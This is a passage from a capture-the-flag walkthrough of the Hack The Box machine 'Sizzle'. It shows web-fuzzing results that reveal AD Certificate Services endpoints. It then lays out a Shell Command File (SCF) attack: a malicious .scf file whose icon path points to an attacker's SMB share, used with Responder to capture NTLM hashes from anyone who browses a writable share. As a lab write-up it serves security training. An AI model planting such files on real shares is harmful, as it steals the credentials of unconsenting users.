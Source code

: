 ```
000931:  C=301      1 L       10 W          158 Ch        "certenroll"
000938:  C=401     29 L      100 W         1293 Ch        "certsrv"
002067:  C=301      1 L       10 W          154 Ch        "images"
002094:  C=200      0 L        5 W           60 Ch        "index.html"

Total time: 46.71118
Processed Requests: 4593
Filtered Requests: 4587
Requests/sec.: 98.32761
```

It appears that Microsoft Active Directory Certificate Services is enabled with `/certenroll` and `/certsrv`. And guess what, `/certsrv` requires NTLM Authentication.

<a class="image-popup">
![afb0fc24.png](/assets/images/posts/sizzle-htb-walkthrough/afb0fc24.png)
</a>

### Shell Command File Attack

Since the other enumeration didn't yield tangible results, perhaps we can launch a client-side attack using Shell Command File (SCF) to harvest SMB credentials in the form of NTLM hashes. Even if a file share doesn’t contain any data that could be used to connect to other systems, and it's configured with write permissions for unauthenticated users, then it is possible to obtain passwords hashes with a malicious SCF file like this.

<div class="filename"><span>1.scf</span></div>

```
[Shell]
Command=2
IconFile=\\10.10.12.129\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Before we put the file to the file share, let's start Responder.

<a class="image-popup">
![11901669.png](/assets/images/posts/sizzle-htb-walkthrough/11901669.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/169
[2]: https://www.hackthebox.eu/home/users/profile/709
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/
